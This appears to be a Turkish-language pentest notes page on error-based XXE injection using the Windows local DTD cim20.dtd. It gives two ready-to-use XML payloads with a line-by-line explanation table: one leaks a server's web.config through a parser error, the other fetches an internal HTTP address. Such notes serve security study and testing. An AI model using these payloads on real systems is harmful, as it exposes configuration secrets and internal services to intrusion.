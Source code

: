 #### Windows Local DTD

[infosec-au/xxe-windows.md](https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79) dosyasındaki yükler.

![Pasted image 20250516003406.png](/img/user/resimler/Pasted%20image%2020250516003406.png)

* Local dosyayı ifşa et

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>anything</xxx>
```

- Hedef sistemde _zaten bulunan_ bir **DTD dosyasına** (`cim20.dtd`) bağlanıyor.
- O dosya içindeki **enjekte edilebilir bir parametreyi** (`%SuperClass`) kullanarak dışardan `ENTITY` tanımlamaları enjekte ediyor.
- Sonra bu `ENTITY`'ler ile hedefteki dosya (veya HTTP yanıtı) **bir hata mesajı aracılığıyla** dışa sızdırılıyor


| Satır                                                                   | Açıklama                                                                                           |
| ----------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------- |
| `<!ENTITY % local_dtd SYSTEM ...>`                                      | Sistemde bulunan DTD dosyasını içeri alır. Bu dosyada `%SuperClass` diye bir parametre entity var. |
| `<!ENTITY % SuperClass '`                                               | Bu satırdan sonra, `%SuperClass` entity'si _bizim_ tarafımızdan yeniden tanımlanır.                |
| `<!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">` | `file` adlı bir parametre entity tanımlanır. Bu entity, hedef dosyayı okur.                        |
| `<!ENTITY &#x25; eval ...>`                                             | Hatalı bir `SYSTEM` URI yaratır: `file://t/#...` böylece parser hata üretirken içerik açığa çıkar. |
| `&#x25;eval;` ve `&#x25;error;`                                         | Bu tanımlanan entity'leri **tetikler** (çalıştırır).                                               |
| `%local_dtd;`                                                           | Yukarıdaki satırları `cim20.dtd` içindeki `%SuperClass` konumuna **enjekte eder**.                 |

XML parser:

- `D:\webserv2\services\web.config` dosyasını okur,
- Onu `file://t/#...` URI’sine gömer,
- Böylece hata mesajı üretirken **web.config içeriğini hata mesajına dahil eder**.


* HTTP Response'unu İfşa Et

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>anything</xxx>
```
